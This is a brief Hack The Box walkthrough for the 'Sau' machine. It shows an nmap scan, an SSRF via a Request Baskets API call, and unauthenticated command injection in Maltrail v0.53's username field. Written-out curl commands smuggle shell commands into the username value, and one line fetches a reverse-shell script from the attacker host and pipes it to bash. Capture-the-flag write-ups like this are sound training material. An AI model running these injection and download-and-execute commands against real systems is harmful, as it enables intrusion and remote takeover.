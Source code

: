 ```yaml
---
title: SAU Hack The Box 
date: 2023-06-25 22:50:30 +/-TTTT
categories: [Hack The Box, SAU]
tags: [SAU HTB] 

image:
  path: /assets/img/htb/sau/logo.png
  # alt: PC HTB
---
```



## Work Flow
![image]( /assets/img/htb/sau/workflow.png)

## Enumeration
- Scan with nmap => 2 ports open: 22, 55555 and 1 port filtering 80
![image]( /assets/img/htb/sau/nmap.png)
- Go to browser and connect to the target with port 55555 => search exploit *request baskets*

## Exploit
```shell
curl http://10.10.11.224:55555/api/baskets/tes --data '{ 
  "forward_url": "http://127.0.0.1:80",         
  "proxy_response": true,
  "insecure_tls": false,
  "expand_path": true,
  "capacity": 250
}'  -X POST

```
=> http://10.129.16.203:55555/tes  ==> Maltrail v0.53 (vulnerable to unauthenticated OS command injection)
- Identifying vulnerability

```shell
curl http://10.10.11.224:55555/api/baskets/test1 --data '{
  "url": "http://127.0.0.1:8338/login",          
  "username": ";`id > /tmp/bbq`",
  "proxy_response": true,
  "insecure_tls": false,
  "expand_path": true,
  "capacity": 250
}'  -X POST

```
- Download and run reshell file

```shell
curl 'http://10.10.11.224:55555/tes/login' --data 'username=;`curl 10.10.14.29:8899/reshell.sh|bash`'

```
![image]( /assets/img/htb/sau/token.png)
 Get reshell 
![image]( /assets/img/htb/sau/reshell.png)

## Privilege escalation
![image]( /assets/img/htb/sau/sudo.png)
![image]( /assets/img/htb/sau/service_root.png)
![image]( /assets/img/htb/sau/get_root.png)